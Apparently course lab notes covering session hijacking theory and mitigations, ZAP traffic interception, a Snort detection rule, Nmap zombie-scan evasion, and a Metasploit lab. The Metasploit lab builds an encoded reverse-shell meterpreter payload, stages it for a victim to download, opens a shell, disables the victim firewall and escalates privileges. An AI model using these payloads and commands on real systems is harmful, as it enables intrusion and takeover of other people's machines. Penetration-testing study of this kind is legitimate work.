# 11 - Session Hijacking

#### <mark style="color:orange;">**Module 11 - Session Hijacking**</mark>

<details>

<summary>What is a Session Hijacking?</summary>

**Session Hijacking**, also known as session fixation or session theft, is a type of security attack where an unauthorized person gains access to a legitimate user's session on a web application. In this attack, the attacker takes control of an active user's session, allowing them to impersonate the user and perform actions on their behalf. This can lead to various security breaches and unauthorized activities.

Session hijacking typically occurs in web applications that use session management to maintain user authentication and track user interactions. Here's how a session hijacking attack works:

1. **Session Creation**: When a user logs into a web application, the server creates a unique session for that user. A session ID is generated and associated with the user's authentication.
2. **Session ID Exposure**: The session ID is typically stored as a cookie on the user's device or included in URLs. It is used to identify the user for subsequent requests.
3. **Attacker's Actions**: The attacker attempts to obtain the user's session ID. This can be done through various means, such as intercepting network traffic, stealing cookies, or tricking the user into revealing their session ID through social engineering or phishing.
4. **Session Hijacking**: Once the attacker acquires the legitimate session ID, they can use it to impersonate the user. They send requests to the web application using the stolen session ID, and the server, recognizing the session ID as valid, treats the requests as if they were coming from the legitimate user.
5. **Unauthorized Actions**: The attacker can now perform actions on the web application as if they were the victim. Depending on the application's security and the permissions associated with the user's session, this can lead to unauthorized activities, such as changing account settings, making fraudulent transactions, or stealing sensitive information.

To mitigate session hijacking, web developers and application owners should implement security measures such as:

1. **Secure Session Management**: Ensure that session IDs are generated securely, are sufficiently random, and have a short lifespan. This reduces the window of opportunity for attackers to hijack a session.
2. **Use HTTPS**: Secure communication with the web application using HTTPS to encrypt data in transit, making it more difficult for attackers to intercept session IDs.
3. **Secure Cookies**: If session IDs are stored as cookies, mark them as secure and HTTP-only to prevent JavaScript from accessing them and transmitting them over unencrypted connections.
4. **Session Regeneration**: Regenerate session IDs after login, authentication changes, or privilege elevation to make it harder for attackers to predict session IDs.
5. **IP Validation**: Implement IP address validation to ensure that sessions are only valid when accessed from the same IP address.
6. **Session Timeout**: Implement session timeouts and automatic logouts to limit the duration of active sessions.

</details>

### OWASP Zed Attack Proxy (ZAP)

* First set Victim’s Proxy settings to attacker’s IP and port 8080.
* Open ZAP and enable Break Point and click green + to view break points
* Go to settings -> local Proxies -> Change IP from localhost to network IP (in this case 10.10.10.16).
* Browse from victim and view the request and responses on the attacker machine.

{% content-ref url="../tools/zap.md" %}
[zap.md](../tools/zap.md)
{% endcontent-ref %}

## Evading IDS Firewalls and Honeypots

### Snort - Intrusion Detection

#### ICMP Detection Rule

* Open C:\Snort\rules\icmp-info.rules.
* Type alert icmp $EXTERNAL\_NET any -> $HOME\_NET 10.10.10.12 (msg:"ICMP-INFO PING"; icode:0; itype:8; reference:arachnids,135; reference:cve,1999-0265; classtype:bad-unknown; sid:472; rev:7;) in Line 21.
* Save the file.

#### Start Snort in IDS mode

* Open cmd in C:Snort and Type snort -iX -A console -c C:\Snort\etc\snort.conf -l C:\Snort\log -K ascii | here X=1 , l is small L

#### Detection

Ping the snort machine and rules will be displayed in cmd

{% embed url="https://www.snort.org/" %}

### Nmap Evasion Techniques – Firewall Rule Bypass

* Enable victim firewall. Create inbound rule and block connection from attacker IP.
* Run different scans from attacker machine. Use Zombie scan to bypass firewall rule. `nmap -sI <Zombie IP><Target IP>`

### Metasploit – Firewall Bypass

#### Payload Setup&#x20;

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e
x86/shikata_ga_nai -b "\x00" LHOST=10.10.10.11 -f exe > Desktop/Exploit.exe #-e encoder, -b list of bad characters to avoid

mkdir /var/www/html/share #make directory
chmod -R 755 /var/www/html/share #change rights recursively to all files and folders inside
chown -R www-data:www-data /var/www/html/share #change owner recursively owner:group
mv /root/Desktop/Test.exe /var/www/html/share #move to exploit
service apache2 start
```

#### Listener Setup

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.11
#Start listener
exploit -j -z #exploit -j -z exploit tells Metasploit to start the exploit.
#The -j flag tells it to run in the context of a job and -z simply means to not interact with the session once it becomes active.
```

#### Execute Exploit

```bash
#Open http://10.10.10.11/share on victim machine. Download Payload and run.
sessions -i #to view sessions
sessions -i 1 #to interact with the session created
execute -f cmd.exe -c -H #creates a channel to execute the victim command shell
shell #opens an interactive shell (cmd)
netsh firewall show opmode #to shown firewall stats
netsh advfirewall set allprofiles state off #to turn off firewall
getsystem
Type ps #show active processes
```
